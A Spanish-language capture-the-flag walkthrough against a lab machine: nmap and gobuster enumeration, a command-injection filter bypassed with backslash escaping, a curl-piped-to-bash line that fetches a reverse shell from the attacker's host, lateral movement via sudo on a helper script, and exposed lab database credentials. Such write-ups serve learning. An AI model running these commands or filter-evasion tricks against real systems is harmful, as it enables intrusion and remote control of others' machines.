 ### nmap
```python
sudo nmap -p- --open -sS -sCV -n -Pn 10.10.95.51
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-18 18:53 EST
Nmap scan report for 10.10.95.51
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.51 seconds
```
### ports: 21/tcp - 22/ssh - 80/http

### Enumeración 80
![[Pasted image 20231118200242.png]]
la pagina principal parace no tener nada importante
### fuzzing con gobuster
![[Pasted image 20231118201742.png]]
### tenemos un monton de directorios pero el que nos llama mas la atencion es /secret asi que vamos a investigar
tenemos una pagina que al parecer nos permite ejecutar codigo
![[Pasted image 20231118202125.png]]
### Al parecer somos el usuario www-data  pero no podemos ejecutar cualquier codigo ya que nos da errores
### despues de una larga busqueda por internet y probar un monton de cosas hemos consegido que interponiendo la barra slash invertido en cada letra de comando al parecer nos deja ejecutarlo. usaremos esto para intentar enviarnos una reverse shell 
![[Pasted image 20231118212931.png]]
### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```
### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![[Pasted image 20231118214103.png]]
### veamos los permisos SUID
![[Pasted image 20231119202137.png]]
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.
### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando

```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20231119202426.png]]
### perfecto. somos apaar. hacemos tratamiento de tty y listamos directorios
![[Pasted image 20231119202943.png]]
###### El index.php parece no tener nada muy importante y en imagenes tampoco.
### seguimos buscando y conseguimos una ruta donde tenemos archivos muy interesantes
vamos a mirar el archivo hacker.php
![[Pasted image 20231119203534.png]]
###### tenemos lo que parece ser una pagina web con una imagen y un mensaje que dice: mira en la oscuridad y podrás conseguir la respuesta
### hacemos cat al siguiente archivo en este caso account.php
![[Pasted image 20231119203858.png]]
###### en este caso tenemos informacion sobre una base de datos. nos dan pistas sobre el tipo de hash utilizados y parece que apunta a la tabla de usuarios
### el archivo index.php nos da informacion sobre lo que efectivamente es una base de datos
![[Pasted image 20231119204232.png]]
###### tenemos informacion sobre una base de datos mysql y al parecer las credenciales son
```python
	DATABASE:

	User: root

	Passwd: !@m+her00+@db
```
### nos faltaria enumerar el directorio images
![[Pasted image 20231119204822.png]]
### tenemos un gif y un jpg que por el nombre nos da algo de curiosidad. vamos a descargarla a nuestra maquina para poder examinarla
